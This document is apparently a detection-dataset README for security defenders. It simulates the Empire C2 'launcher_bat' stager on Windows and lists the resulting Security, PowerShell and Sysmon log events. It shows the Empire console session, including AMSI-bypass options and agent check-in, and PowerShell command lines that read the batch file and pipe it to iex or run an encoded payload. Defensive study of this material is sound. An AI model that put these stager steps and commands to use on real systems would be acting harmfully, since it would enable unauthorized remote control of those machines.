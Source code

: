# Empire-Windows-Launcher-Bat

## DataSet Description 
The adversary  might used empire' launcher_bat stager to execute code in the environment. This attack example can be leveraged by attackers in a physical way, such as rubber ducky.

## Simulation Plan
| Environment | Tool Type | Module                      |
| ----------- | --------- | --------------------------- |
| WIN10       | C2        | empire:windows/launcher_bat |

```bash
(Empire) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > info
Name: BAT Launcher
Description:
  Generates a self-deleting .bat launcher for Empire.
Options:
  Name             Required    Value             Description
  ----             --------    -------           -----------
  Listener         True                          Listener to generate stager for.
  Language         True        powershell        Language of the stager to generate.
  StagerRetries    False       0                 Times for the stager to retry
                                                 connecting.
  OutFile          False       /tmp/launcher.bat File to output .bat launcher to,
                                                 otherwise displayed on the screen.
  Delete           False       True              Switch. Delete .bat after running.
  Obfuscate        False       False             Switch. Obfuscate the launcher
                                                 powershell code, uses the
                                                 ObfuscateCommand for obfuscation types.
                                                 For powershell only. 
  ObfuscateCommand False       Token\All\1       The Invoke-Obfuscation command to use.
                                                 Only used if Obfuscate switch is True.
                                                 For powershell only. 
  UserAgent        False       default           User-agent string to use for the staging
                                                 request (default, none, or other).
  Proxy            False       default           Proxy to use for request (default, none,
                                                 or other).
  ProxyCreds       False       default           Proxy credentials
                                                 ([domain\]username:password) to use for
                                                 request (default, none, or other).
  AMSIBypass       False       True              Include mattifestation's AMSI Bypass in
                                                 the stager code.
  AMSIBypass2      False       False             Include Tal Liberman's AMSI Bypass in
                                                 the stager code.


(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
[*] Stager output written out to: /tmp/launcher.bat

(Empire: stager/windows/launcher_bat) > 
[*] Sending POWERSHELL stager (stage 1) to 192.168.254.56
[*] New agent R1SHUP8X checked in
[+] Initial agent R1SHUP8X from 192.168.254.56 now active (Slack)
[*] Sending agent (stage 2) to R1SHUP8X at 192.168.254.56

```
# Explore Dataset
## Adversary Behavior I

| Field                | Value                                                                     |
| -------------------- | ------------------------------------------------------------------------- |
| LogName              | Security                                                                  |
| EventCode            | 4688                                                                      |
| New_Process_ID       | 0x1374                                                                    |
| New_Process_name     | C:\Windows\system32\cmd.exe                                               |
| Process_Command_Line | C:\Windows\system32\cmd.exe /c ""C:\Users\vagrant\Downloads\launcher.bat" |
| TaskCatergory        | Process Creation                                                          |

## Adversary Behavior II
| Field                | Value                                                                                                                                                     |
| -------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| LogName              | Security                                                                                                                                                  |
| EventCode            | 4688                                                                                                                                                      |
| Creator_Process_ID   | 0x1374                                                                                                                                                    |
| New_Process_ID       | 0x25f4                                                                                                                                                    |
| New_Process_name     | Creator_Process_ID                                                                                                                                        |
| Process_Command_Line | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nol -nop -ep bypass "[IO.File]::ReadAllText('C:\Users\vagrant\Downloads\launcher.bat')\|iex" |
|                      |
| TaskCatergory        | Process Creation                                                                                                                                          |

## Adversary Behavior III

| Field        | Value                                                                                                                   |
| ------------ | ----------------------------------------------------------------------------------------------------------------------- |
| LogName      | Windows PowerShell                                                                                                      |
| EventCode    | 400                                                                                                                     |
| Message      | *HostApplication=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -noP -sta -w 1 -enc //5112 bytes payload// * |
| TaskCategory | Engine Lifecycle                                                                                                        |

## Adversary Behavior IV

| Field             | Value                                                                                                                                                      |
| ----------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| LogName           | Microsoft-Windows-Sysmon/Operational                                                                                                                       |
| EventCode         | 1                                                                                                                                                          |
| TaskCategory      | Process Create                                                                                                                                             |
| RuleName          | technique_id=T1059.001,technique_name=PowerShell                                                                                                           |
| ProcessId         | 3988                                                                                                                                                       |
| CommandLine       | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noP -sta -w 1 -enc //5112 byte payload//                                                      |
| ParentProcessId   | 9716                                                                                                                                                       |
| ParentImage       | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe                                                                                                  |
| ParentCommandLine | "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"  -nol -nop -ep bypass "[IO.File]::ReadAllText('C:\Users\vagrant\Downloads\launcher.bat')\|iex" |
| ProcessGuid       | {bac4bdbc-36f2-5fd8-570d-000000000700}                                                                                                                     |


## Adversary Behavior V
| Field        | Value                                                     |
| ------------ | --------------------------------------------------------- |
| LogName      | Microsoft-Windows-Sysmon/Operational                      |
| EventCode    | 7                                                         |
| ProcessId    | 3988                                                      |
| Image        | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe |
| ImageLoaded  | C:\Windows\System32\wbem\wmiutils.dll                     |
| TaskCategory | Image loaded (rule: ImageLoad)                            |


## Adversary Behavior VI
You can look for Powershell connected to C2
| Field           | Value                                                     |
| --------------- | --------------------------------------------------------- |
| LogName         | Microsoft-Windows-Sysmon/Operational                      |
| EventCode       | 3                                                         |
| ProcessId       | 3988                                                      |
| Image           | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe |
| DestinationIp   | <C2 IP>                                                   |
| DestinationPort | 80                                                        |
| TaskCategory    | Network connection detected (rule: NetworkConnect)        |


## Adversary Behavior VII
Since the C2 connection has established, You can look for Powershell Pipeline Execution Details which invoked "Get-Random" with a few of URL request to pretend normal web traffic
| Field                        | Value                                          |
| ---------------------------- | ---------------------------------------------- |
| LogName                      | Windows PowerShell                             |
| EventCode                    | 800                                            |
| ParameterBinding_Get_Random_ | name="InputObject"; value="/admin/get.php"     |
|                              | name="InputObject"; value="/news.php"          |
|                              | name="InputObject"; value="/login/process.php" |
| TaskCategory                 | Pipeline Execution Details                     |


## Known Bypasses
None

## False Positives
None